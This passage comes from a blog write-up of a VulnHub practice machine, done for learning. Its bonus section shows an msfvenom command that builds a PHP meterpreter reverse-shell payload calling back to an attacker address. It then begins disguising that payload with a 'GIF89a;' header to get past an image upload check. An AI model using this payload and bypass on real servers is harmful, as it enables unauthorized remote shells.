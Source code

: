{{< / highlight >}}

## Denouement

_(French for "untying of the knot"): resolution; conclusion or outcome of story._

We almost certainly didn't follow the intended path for this vulnhub machine. We still reached the goal. There's a valuable lesson there. Part of what makes this kind of thing fun is that there are many ways to solve the puzzle. In a formal pentest, we would have wanted to fully explore all avenues, or at least report them, but that's not the point of the gathering of friends I do this with. The point is for us to learn things and hone our (admittedly newbie) pentesting/offsec skills and enjoy hanging out. That mission was definitely achieved, because we all enjoyed the challenge and learned things in the process.

---

## Bonus PHP Upload Update

After publishing this post, I decided that I was not happy with the way I left the PHP weakness. I knew there was something there and I spent some time trying to understand what I missed.

### Nikto and Curl

I ran nikto and found this clue to help me:

{{< highlight markdown >}}
Very early in the output I saw this gem we can use for php hax:


+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type

{{< / highlight >}}

I dug around a lot and ended up revisiting some HTTP fundamentals, and also learning a few things about the GIF format.

### Make and Disguise a Payload

Let's make a payload with msfvenom for a reverse_tcp meterpreter shell:

{{< highlight markdown >}}
root@kali:~/hackinos# msfvenom -p php/meterpreter/reverse_tcp  LHOST=192.168.167.130 LPORT=4444 -o revtcp.php
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 1116 bytes
Saved as: revtcp.php
root@kali:~/hackinos# 
{{< / highlight >}}

Then you prepend the gif filetype header "GIF89a;" to the payload make it pass the php image check:

{{< highlight markdown >}}
root@kali:~/hackinos# cat gifrevtcp.php
GIF89a;
